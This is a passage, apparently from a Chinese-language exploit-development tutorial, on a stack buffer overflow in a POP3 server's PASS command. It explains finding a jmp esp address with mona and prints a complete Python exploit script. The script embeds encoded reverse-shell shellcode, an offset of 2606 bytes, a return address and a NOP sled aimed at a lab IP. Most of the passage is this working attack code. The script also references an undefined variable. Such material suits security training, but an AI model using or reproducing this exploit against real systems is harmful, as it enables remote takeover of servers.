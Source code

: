 因此，我们将在免疫调试器和`mona`脚本中搜索`\xff\xe4`，以找到`jmp`位置，如下所示：

![](assets/cb4986e8-b335-494e-ba8a-d0f9695698f3.png)

我们有很多点击率，但让我们看第一个，那就是`0x5f4a358f`。下一步是生成利用代码，在机器上为我们提供一个反向 shell，并将该利用代码放在自定义 Python 脚本中，以将负载发送到服务器。需要注意的是，在生成攻击代码时，我们将对其进行编码并转义某些错误字符，以确保其正常工作：

![](assets/14470d44-58b2-42d9-abc7-8b9eb0678fee.png)

生成前面的有效负载后，让我们创建一个 Python 脚本，该脚本将导致该漏洞。我们将通过`mona`脚本使用之前发现的`jmp esp`位置。还应注意，由于对有效载荷进行了编码，因此将使用几个字节进行解码，并且将使用几个字节进行填充：

```
#!/usr/bin/python    
import socket        
buffer=["A"]    
counter=100
buf =  ""
buf += "\xd9\xc8\xbd\xad\x9f\x5d\x89\xd9\x74\x24\xf4\x5a\x33"
buf += "\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x6f\x9b\xbf"
buf += "\x7c\x93\x4c\xbd\x7f\x6b\x8d\xa2\xf6\x8e\xbc\xe2\x6d"
buf += "\xdb\xef\xd2\xe6\x89\x03\x98\xab\x39\x97\xec\x63\x4e"
buf += "\x10\x5a\x52\x61\xa1\xf7\xa6\xe0\x21\x0a\xfb\xc2\x18"
buf += "\xc5\x0e\x03\x5c\x38\xe2\x51\x35\x36\x51\x45\x32\x02"
buf += "\x6a\xee\x08\x82\xea\x13\xd8\xa5\xdb\x82\x52\xfc\xfb"
buf += "\x25\xb6\x74\xb2\x3d\xdb\xb1\x0c\xb6\x2f\x4d\x8f\x1e"
buf += "\x7e\xae\x3c\x5f\x4e\x5d\x3c\x98\x69\xbe\x4b\xd0\x89"
buf += "\x43\x4c\x27\xf3\x9f\xd9\xb3\x53\x6b\x79\x1f\x65\xb8"
buf += "\x1c\xd4\x69\x75\x6a\xb2\x6d\x88\xbf\xc9\x8a\x01\x3e"
buf += "\x1d\x1b\x51\x65\xb9\x47\x01\x04\x98\x2d\xe4\x39\xfa"
buf += "\x8d\x59\x9c\x71\x23\x8d\xad\xd8\x2c\x62\x9c\xe2\xac"
buf += "\xec\x97\x91\x9e\xb3\x03\x3d\x93\x3c\x8a\xba\xd4\x16"
buf += "\x6a\x54\x2b\x99\x8b\x7d\xe8\xcd\xdb\x15\xd9\x6d\xb0"
buf += "\xe5\xe6\xbb\x17\xb5\x48\x14\xd8\x65\x29\xc4\xb0\x6f"
buf += "\xa6\x3b\xa0\x90\x6c\x54\x4b\x6b\xe7\x9b\x24\x89\x67"
buf += "\x73\x37\x6d\x99\xd8\xbe\x8b\xf3\xf0\x96\x04\x6c\x68"
buf += "\xb3\xde\x0d\x75\x69\x9b\x0e\xfd\x9e\x5c\xc0\xf6\xeb"
buf += "\x4e\xb5\xf6\xa1\x2c\x10\x08\x1c\x58\xfe\x9b\xfb\x98"
buf += "\x89\x87\x53\xcf\xde\x76\xaa\x85\xf2\x21\x04\xbb\x0e"
buf += "\xb7\x6f\x7f\xd5\x04\x71\x7e\x98\x31\x55\x90\x64\xb9"
buf += "\xd1\xc4\x38\xec\x8f\xb2\xfe\x46\x7e\x6c\xa9\x35\x28"
buf += "\xf8\x2c\x76\xeb\x7e\x31\x53\x9d\x9e\x80\x0a\xd8\xa1"
buf += "\x2d\xdb\xec\xda\x53\x7b\x12\x31\xd0\x8b\x59\x1b\x71"
buf += "\x04\x04\xce\xc3\x49\xb7\x25\x07\x74\x34\xcf\xf8\x83"
buf += "\x24\xba\xfd\xc8\xe2\x57\x8c\x41\x87\x57\x23\x61\x82"
buffer='A'*2606 + '\x8f\x35\x4a\x5f' + "\x90"*8 +buf

if 1:    
   print"Fuzzing PASS with %s bytes" %    len(string)    
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)    
   connect=s.connect(('192.168.250.158',110))    
   data=s.recv(1024)    
   s.send('USER root \r\n')        
   data=s.recv(1024)
   print str(data)    
   s.send('PASS    ' + buffer + '\r\n')    
   #data=s.recv(1024)
   #print str(data)    
   print "done"
   #s.send('QUIT\r\n')        
   s.close()    

```
